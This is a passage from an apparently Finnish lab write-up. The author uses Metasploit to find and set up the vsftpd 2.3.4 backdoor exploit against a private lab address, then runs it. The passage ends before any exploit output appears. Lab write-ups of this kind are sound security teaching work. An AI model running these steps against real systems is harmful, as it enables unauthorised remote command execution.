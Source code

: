 ```bash
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

```
Valitsin kyseisen exploitin use-komennolla:
```bash
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 

``` 
RHOSTS ei ole määritelty joten määrittelin sen komennolla `set RHOSTS 192.168.60.4`  
```bash 
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.60.4
RHOSTS => 192.168.60.4
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.60.4     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basic
                                      s/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
Suoritin valitun exploitin komennolla `exploit` 
